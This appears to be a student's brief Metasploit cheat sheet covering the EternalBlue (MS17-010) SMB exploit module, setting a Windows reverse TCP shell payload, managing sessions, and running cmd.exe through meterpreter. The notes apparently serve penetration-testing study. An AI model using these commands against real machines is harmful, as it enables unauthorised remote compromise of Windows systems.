 # Metasploit

## Notes

use exploit/windows/smb/ms17_010_eternalblue

show options

info exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/shell/reverse_tcp

setg command allows you to set the value so it can be used by default across different modules. You can clear any value set with setg using unsetg

exploit = run

You can use the background command to background the session prompt and go back to the msfconsole prompt.
The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.
To interact with any session, you can use the sessions -i command followed by the desired session number.
show payloads

meterpreter> execute -f cmd.exe -i -H



